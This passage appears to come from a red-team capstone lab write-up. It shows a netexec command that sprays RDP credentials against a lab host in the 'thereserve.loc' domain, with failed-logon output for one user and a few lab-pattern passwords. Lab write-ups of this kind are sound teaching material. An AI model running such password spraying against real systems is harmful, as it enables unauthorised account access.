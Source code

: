 
```
arthur-strelow@ubuntu-star:~/capstone$ netexec rdp 10.200.89.11 -u users.txt -p generated_passwords.txt2 --threads 10
RDP         10.200.89.11    3389   MAIL             [*] Windows 10 or Windows Server 2016 Build 17763 (name:MAIL) (domain:thereserve.loc) (nla:True)
RDP         10.200.89.11    3389   MAIL             [-] thereserve.loc\aimee.walker:TheReserve8# (STATUS_LOGON_FAILURE)
RDP         10.200.89.11    3389   MAIL             [-]
.
.
.
RDP         10.200.89.11    3389   MAIL             [-] thereserve.loc\aimee.walker:TheReserve0@ (STATUS_LOGON_FAILURE)
```

### 6.1.2 `10.200.89.12`

![](img/9bfa638f4d58192111e252613c1ee62b.png)

![](img/6e78b518c9822028f6fb14367e2f4092.png)
